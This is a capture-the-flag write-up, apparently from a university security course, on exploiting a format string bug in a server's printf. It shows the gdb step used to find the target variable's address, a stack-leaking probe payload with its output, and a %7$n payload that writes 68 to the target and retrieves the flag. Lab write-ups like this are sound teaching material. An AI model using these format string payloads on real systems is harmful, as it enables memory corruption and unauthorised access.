 # Challenge `Write Specific Value` writeup

- Vulnerability:
  - _Endpoint has a **format string** vulnerability_
- Where:
  - _`printf` endpoint_
- Impact:
  - _Allows to **read and write the stack values and arbitrary registers** without having the authority to by using the (vulnerable) printf function in the server's code_

## Steps to reproduce

First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22193`. After the session is established we can now start plotting what to do.

By analysing the source code provided, we can see that there is a buffer being used to store the input of the user. The buffer has a size of 128, and afterwards, in the function `vuln`, is printed. We can see that the `printf` function is being used to print the buffer, and it has a format string vulnerability. 

This means that we can send `%08x.` characters to print the stack values. We need to see where in the stack our buffer is and update the targets value to something different. To check the **target address** we used the gdb debugger with the corresponding **binary** file. To get it, we made a breakpoint in **vuln** and used the following command:

```bash
gdb-peda$ p &target
$4 = (unsigned int *) 0x804a040 <target>
```

Since we now have the address of the target we now need to know where in the stack the buffer starts. To do this we used the following payload:

```python
msg = (b"AAAA" + b"%08x."*20)
```

We obained: 
```bash
AAAAffffdc7c.0000007f.ffffdcd8.f7ffda74.00000001.f7fd3490.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.
Oops, not quite! Target was: 0
```

Because we used the string `AAAA` as a reference, we can see that the buffer starts in the 7th place. Having this information, we can now try to overwrite the target value. This time around, we need to make the target have a specific value, **68**. To do this we used the following payload:

```python
msg = (b"\x40\xa0\x04\x08" + b"A"*64 + b"%7$n")
r.sendline(msg)
print(f"Flag: {r.recvall()}")
r.close()
```

Now, we can see that the server returned the `flag`. This means that we have successfully exploited the vulnerability and achieved our objective.

## Script

The script used can be found [here](write_specific_value_poc.py)